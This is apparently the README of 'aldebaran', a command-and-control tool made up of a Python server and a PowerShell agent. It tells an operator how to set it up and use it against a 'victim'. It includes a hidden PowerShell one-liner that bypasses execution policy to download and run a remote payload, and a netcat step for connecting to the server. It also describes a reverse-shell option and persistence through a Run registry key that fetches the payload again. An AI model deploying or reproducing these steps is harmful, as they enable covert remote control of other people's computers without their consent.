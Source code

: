 # aldebaran

Python3 C2 server and agent payload.

Uses HTTP protocol with check-in. Works in env with powershell constrained language mode.

Agent code can be delivered as in memory only or as is e.g in a hta file.

darma is the server side code in python3

darpa is the agent side code in powershell

# Installation

## Requirements
Install requirements with pip3
```pip3 install -r requirements.txt```


## Certificates
You will have to create valid https certs.
Self signed certs wont work with powershell. will lose constrainedlanguagemode support to ignore ssl errors so use letsencrypt

use ```certbot certonly --manual -d www.your_domain.com --register-unsafely-without-email ```
and copy certs in "darma/certificates/" and/or adjust config.py to point to them
letsencrypt stores certs in /etc/letsencrypt/live/$domain


## Change domain in config.py to match the ones of the certificates

Change payload to point to your server url
## change domain in :
```
darpa/main.ps1
darpa/oneline.ps1
darpa/pers.ps1

darma/rev.txt
```

## Change password of c2 server
Change bcrpyt hash in "darma/config.py" with

```
#Python3
# To generate hash
# Mind the '\n'
password = b"super secret password\n"
hashed = bcrypt.hashpw(password, bcrypt.gensalt())
print(hashed)
```
## Serverside
To start server:

```
python3 darma/main.py
```
## Victim
Run agent on victim


## Attacker machine
Connect to server with netcat on port 51251 with attackers machine

```
nc ip_of_server 51251
```

enter password and menu will pop up

## Logging
If deamonized, logging can be found @ ```/var/log/aldebaran.log```

## First infection

Run the following command on victim in 'run' (win+r)

```
C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c "$command = iwr -Uri https://www.your_domain.com/ -Method GET  -UseBasicParsing; iex $command"
```
## Reverese shell
Change the ip and port in darma/resources/rev.txt to make the reverse shell option work

## Persistence

When the victim checks in for the first time, an entry in ```HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run``` will be added that downloads the oneliner version of the payload

## TODO
### Install script
